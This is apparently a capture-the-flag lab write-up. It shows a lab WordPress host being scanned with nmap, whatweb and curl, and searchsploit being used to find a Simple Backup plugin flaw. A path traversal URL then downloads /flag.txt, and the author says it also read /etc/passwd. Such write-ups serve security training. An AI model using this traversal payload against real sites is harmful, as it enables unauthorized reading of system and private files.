

# Challenges

## Getting Started/Public exploits

### Challenge

Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start) 

### Solution

Running `nmap` returned 
```
└──╼ $nmap 94.237.49.11
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-28 08:01 EET
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.11 seconds
```
So I tried banner grabbing with `whatweb`
```
──╼ $whatweb 94.237.49.11:52891
http://94.237.49.11:52891 [200 OK] Apache[2.4.41], Country[FINLAND][FI], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[94.237.49.11], MetaGenerator[WordPress 5.6.1], PoweredBy[--], Script, Title[Getting Started &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[5.6.1]
```
Got response that server is running a WordPress website on a Apache server. 
Then went to look for exploits on Apache and Wordpress, but did not find any note worthy.

Then I ran
```└──╼ $curl -IL 94.237.49.11:52891
HTTP/1.1 200 OK
Date: Tue, 28 Nov 2023 06:28:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Link: <http://94.237.49.11:52891/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```
Which revealed to me that `index.php` page is accessible.


In the page we can see WordPress plugin `Simple Backup Plugin 2.7.10`. So I used `searchsploit` to find vulnerabilities for the plugin
```
└──╼ $searchsploit -w Wordpress "Simple Backup Plugin"
------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                     |  URL
------------------------------------------------------------------- --------------------------------------------
WordPress Plugin Simple Backup 2.7.11 - Multiple Vulnerabilities   | https://www.exploit-db.com/exploits/39883
------------------------------------------------------------------- --------------------------------------------
```
Then I checked out the exploit-db website and saw there's a file download exploit so I pasted the URL and edited it to access /user/<user>/flag.txt
`http://94.237.62.195:45161/wp-admin/tools.php?page=backup_manager&download_backup_file=../../../../flag.txt` which downloaded me the file which contents contained the flag for the challenge.

```
With this exploit I was even able to download /etc/pswd
```